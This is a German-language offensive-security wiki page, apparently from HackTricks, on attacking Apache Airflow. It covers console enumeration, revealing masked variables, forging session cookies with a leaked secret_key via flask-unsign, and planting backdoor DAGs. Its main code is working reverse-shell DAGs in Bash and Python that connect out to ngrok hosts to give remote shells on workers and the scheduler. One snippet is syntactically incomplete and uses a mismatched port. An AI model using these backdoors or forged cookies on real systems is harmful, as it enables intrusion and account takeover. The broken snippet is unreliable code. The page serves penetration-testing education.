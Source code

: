 # Apache Airflow Security

{{#include ../../banners/hacktricks-training.md}}

### Grundlegende Informationen

[**Apache Airflow**](https://airflow.apache.org) dient als Plattform zum **Orchestrieren und Planen von Datenpipelines oder Workflows**. Der Begriff "Orchestrierung" im Kontext von Datenpipelines bezeichnet den Prozess des Anordnens, Koordinierens und Verwaltens komplexer Daten-Workflows, die aus verschiedenen Quellen stammen. Der Hauptzweck dieser orchestrierten Datenpipelines besteht darin, verarbeitete und konsumierbare Datensätze bereitzustellen. Diese Datensätze werden von einer Vielzahl von Anwendungen umfassend genutzt, einschließlich, aber nicht beschränkt auf Business-Intelligence-Tools, Datenwissenschafts- und Machine-Learning-Modelle, die alle grundlegend für das Funktionieren von Big-Data-Anwendungen sind.

Im Grunde genommen ermöglicht es Apache Airflow, die **Ausführung von Code zu planen, wenn etwas** (Ereignis, Cron) **passiert**.

### Lokales Labor

#### Docker-Compose

Sie können die **docker-compose-Konfigurationsdatei von** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) verwenden, um eine vollständige Apache Airflow-Docker-Umgebung zu starten. (Wenn Sie MacOS verwenden, stellen Sie sicher, dass Sie der Docker-VM mindestens 6 GB RAM zuweisen).

#### Minikube

Eine einfache Möglichkeit, **Apache Airflow** auszuführen, besteht darin, es **mit Minikube** auszuführen:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow-Konfiguration

Airflow könnte **sensible Informationen** in seiner Konfiguration speichern oder Sie könnten schwache Konfigurationen finden:

{{#ref}}
airflow-configuration.md
{{#endref}}

### Airflow RBAC

Bevor Sie mit dem Angriff auf Airflow beginnen, sollten Sie verstehen, **wie Berechtigungen funktionieren**:

{{#ref}}
airflow-rbac.md
{{#endref}}

### Angriffe

#### Webkonsole Aufzählung

Wenn Sie **Zugriff auf die Webkonsole** haben, könnten Sie in der Lage sein, einige oder alle der folgenden Informationen zuzugreifen:

- **Variablen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
- **Verbindungen** (Benutzerdefinierte sensible Informationen könnten hier gespeichert sein)
- Greifen Sie darauf zu in `http://<airflow>/connection/list/`
- [**Konfiguration**](./#airflow-configuration) (Sensible Informationen wie der **`secret_key`** und Passwörter könnten hier gespeichert sein)
- Liste der **Benutzer & Rollen**
- **Code jedes DAG** (der interessante Informationen enthalten könnte)

#### Abrufen von Variablenwerten

Variablen können in Airflow gespeichert werden, damit die **DAGs** ihre Werte **zugreifen** können. Es ist ähnlich wie bei Geheimnissen anderer Plattformen. Wenn Sie **genug Berechtigungen** haben, können Sie sie in der GUI unter `http://<airflow>/variable/list/` abrufen.\
Airflow zeigt standardmäßig den Wert der Variablen in der GUI an, jedoch ist es laut [**diesem**](https://marclamberti.com/blog/variables-with-apache-airflow/) möglich, eine **Liste von Variablen** festzulegen, deren **Wert** als **Sternchen** in der **GUI** angezeigt wird.

![](<../../images/image (164).png>)

Diese **Werte** können jedoch weiterhin über **CLI** (Sie müssen DB-Zugriff haben), **willkürliche DAG**-Ausführung, **API**, die auf den Variablen-Endpunkt zugreift (die API muss aktiviert sein), und **sogar die GUI selbst!**\
Um auf diese Werte über die GUI zuzugreifen, wählen Sie einfach die **Variablen** aus, auf die Sie zugreifen möchten, und **klicken Sie auf Aktionen -> Exportieren**.\
Eine andere Möglichkeit besteht darin, einen **Bruteforce** auf den **versteckten Wert** durchzuführen, indem Sie die **Suchfilterung** verwenden, bis Sie ihn erhalten:

![](<../../images/image (152).png>)

#### Privilegieneskalation

Wenn die Konfiguration **`expose_config`** auf **True** gesetzt ist, können Benutzer ab der **Rolle Benutzer** und **darüber** die **Konfiguration im Web** **lesen**. In dieser Konfiguration erscheint der **`secret_key`**, was bedeutet, dass jeder Benutzer mit diesem gültigen Schlüssel **seinen eigenen signierten Cookie erstellen kann, um sich als ein anderer Benutzeraccount auszugeben**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG-Hintertür (RCE im Airflow-Worker)

Wenn Sie **Schreibzugriff** auf den Ort haben, an dem die **DAGs gespeichert sind**, können Sie einfach **eine erstellen**, die Ihnen eine **Reverse-Shell** sendet.\
Beachten Sie, dass diese Reverse-Shell innerhalb eines **Airflow-Worker-Containers** ausgeführt wird:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE im Airflow-Scheduler)

Wenn Sie etwas auf **der Wurzel des Codes ausführen** lassen, wird es zum Zeitpunkt des Schreibens **vom Scheduler ausgeführt**, nachdem es ein paar Sekunden lang im DAG-Ordner platziert wurde.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG-Erstellung

Wenn es Ihnen gelingt, **eine Maschine im DAG-Cluster zu kompromittieren**, können Sie neue **DAG-Skripte** im Ordner `dags/` erstellen, und sie werden **in den restlichen Maschinen** im DAG-Cluster **repliziert**.

#### DAG-Code-Injektion

Wenn Sie einen DAG über die GUI ausführen, können Sie **Argumente** an ihn **übergeben**.\
Daher könnte der DAG, wenn er nicht ordnungsgemäß codiert ist, **anfällig für Command Injection** sein.\
Das ist, was in diesem CVE passiert ist: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Alles, was Sie wissen müssen, um **nach Command Injections in DAGs zu suchen**, ist, dass **Parameter** mit dem Code **`dag_run.conf.get("param_name")`** **zugegriffen** werden.

Darüber hinaus könnte die gleiche Verwundbarkeit auch bei **Variablen** auftreten (beachten Sie, dass Sie mit ausreichenden Rechten **den Wert der Variablen** in der GUI **steuern** könnten). Variablen werden **mit** zugegriffen:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Wenn sie beispielsweise innerhalb eines Bash-Befehls verwendet werden, könnten Sie eine Befehlsinjektion durchführen.

{{#include ../../banners/hacktricks-training.md}}
